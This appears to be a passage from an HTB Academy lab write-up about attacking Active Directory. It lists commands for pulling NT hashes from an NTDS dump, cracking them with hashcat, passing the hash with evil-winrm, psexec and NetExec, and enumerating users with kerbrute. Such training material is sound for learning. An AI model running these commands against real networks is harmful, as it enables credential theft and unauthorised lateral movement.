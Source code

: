 ### Extracting and Cracking Jennifer Stapleton's Hash
```bash
# Extract Jennifer Stapleton's hash
grep -i "stapleton" ntds_dump.txt
# Output: jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::

# Extract just the NT hash (4th field)
echo "161cff084477fe596a5db81874498a24" > jstapleton_hash.txt

# Crack with Hashcat
hashcat -m 1000 jstapleton_hash.txt /usr/share/wordlists/rockyou.txt

# HTB Academy result:
# 161cff084477fe596a5db81874498a24:Winter2008
```

### Bulk Hash Processing
```bash
# Extract all NT hashes from NTDS dump
grep ":::" ntds_dump.txt | cut -d: -f4 > all_nt_hashes.txt

# Create username:hash mapping
grep ":::" ntds_dump.txt | awk -F: '{print $1":"$4}' > user_hash_mapping.txt

# Extract only enabled accounts
grep -iv disabled ntds_dump.txt | cut -d: -f1 > enabled_users.txt
```

## ⚔️ Pass-the-Hash Attacks

### When Cracking Fails
```bash
# Use NT hash directly for authentication
evil-winrm -i 10.129.202.85 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

# Lateral movement with Impacket
python3 psexec.py -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@TARGET_IP

# Network-wide testing with NetExec
netexec smb SUBNET_RANGE -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

## 🏆 Complete HTB Academy Attack Workflow

### Phase 1-2: Discovery and Enumeration
```bash
# 1. OSINT: Found John Marston, Carol Johnson, Jennifer Stapleton
# 2. Generate usernames with Username Anarchy
./username-anarchy John Marston > usernames.txt

# 3. Domain discovery
netexec smb 10.129.202.85  # → domain:ILF.local

# 4. Username validation
./kerbrute userenum -d ILF.local --dc 10.129.202.85 usernames.txt
# → [+] VALID USERNAME: jmarston@ILF.local
```
